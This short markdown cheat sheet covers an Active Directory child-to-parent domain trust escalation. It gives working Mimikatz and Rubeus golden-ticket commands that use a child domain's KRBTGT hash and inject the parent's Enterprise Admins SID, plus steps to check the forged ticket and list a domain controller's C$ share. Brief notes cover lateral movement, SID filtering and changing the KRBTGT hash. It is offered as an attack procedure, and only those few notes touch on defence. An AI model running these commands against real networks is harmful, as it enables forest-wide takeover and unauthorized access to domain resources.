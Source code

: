 
#### 2. **Create Golden Ticket** with Mimikatz:

Use the gathered data to create a Golden Ticket:

```
mimikatz> kerberos::golden /user:hacker /domain:<child-domain> /sid:<child-SID> /krbtgt:<KRBTGT-hash> /sids:<Enterprise-Admins-SID> /ptt
```

This ticket grants access to the parent domain’s resources.

#### 3. **Verify Golden Ticket**:

- Confirm Kerberos ticket is in memory:
    
    ```
    klist
    ```
    
- Access resources:
    
    ```
    ls \\<dc-name>\c$
    ```
    

#### 4. **Alternative Tool**: **Rubeus**

Use **Rubeus** to create and inject the Golden Ticket:

```
.\Rubeus.exe golden /rc4:<KRBTGT-hash> /domain:<child-domain> /sid:<child-SID> /sids:<Enterprise-Admins-SID> /user:hacker /ptt
```

#### 5. **Post-Exploit**:

- After ticket creation, resources from the parent domain are accessible.
- The attack allows lateral movement and escalation of privileges across the forest.

### Attack Notes:

- The **KRBTGT hash** is critical for ticket creation. Always change it after compromising a domain.
- SID Filtering protection can prevent this attack but is often not enabled in many environments.



### **Domain Trust Attack Cheat Sheet (Child -> Parent)**

#### **1. Gather Information (from Child Domain)**

To perform the attack, collect the following details:

- **KRBTGT hash for the child domain**
- **SID of the child domain**
- **Target user (any valid user, even non-existent)**
- **Fully Qualified Domain Name (FQDN) of the child domain**
- **SID of the Enterprise Admins group in the parent domain**
